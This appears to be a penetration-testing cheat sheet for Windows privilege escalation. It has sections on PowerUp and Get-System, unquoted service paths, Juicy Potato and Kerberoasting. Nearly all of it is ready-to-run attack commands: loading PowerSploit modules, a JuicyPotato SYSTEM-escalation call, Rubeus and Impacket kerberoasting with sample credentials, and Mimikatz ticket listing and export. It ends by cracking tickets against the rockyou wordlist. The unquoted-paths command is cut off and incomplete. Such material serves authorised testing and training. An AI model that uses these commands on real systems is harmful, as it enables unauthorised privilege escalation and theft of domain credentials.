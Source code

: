 ## Privileges Escalation

### PowerShellMafia

- [github repository](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

```bash
powershell.exe -c "Import-Module C:\Users\Public\PowerUp.ps1; Invoke-AllChecks"
powershell.exe -c "Import-Module C:\Users\Public\Get-System.ps1; Get-System"
```

### Unquoted paths

```bash
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v
```

### Juicy Potato
```bash
C:\Windows\Temp\JuicyPotato.exe -p cmd.exe -a "/c whoami > C:\Users\Public\whoami.txt" -t * -l 1031 -c {d20a3293-3341-4ae8-9aaf-8e397cb63c34}
```

### Kerberoast

```bash
# Rubeus 
.\.rubeus.exe kerberoast /creduser:ecorp\VALUE /credpassword:pass1234

# List available tickets
setspn.exe -t evil.corp -q */*
powershell.exe -exec bypass -c "Import-Module .\GetUserSPNs.ps1"
cscript.exe GetUserSPNs.ps1

# List cached tickets
Invoke-Mimikatz -Command '"kerberos::list"'
powershell.exe -c "klist"
powershell.exe -c "Import-Module C:\Users\Public\Invoke-Mimikatz.ps1; Invoke-Mimikatz -Command '"kerberos::list"'"

# Request tickets 
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/web01.medin.local"

# Requesting remotely
python GetUserSPNs.py -request ECORP/VALUE:supersecurepassword@127.0.0.1

# Extract tickets
powershell.exe -c "Import-Module C:\Users\Public\Invoke-Kerberoast.ps1; Invoke-Kerberoast -OutputFormat Hashcat"
Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack Tickets
python tgsrepcrack.py /usr/share/wordlists/rockyou.txt ticket.kirbi
```
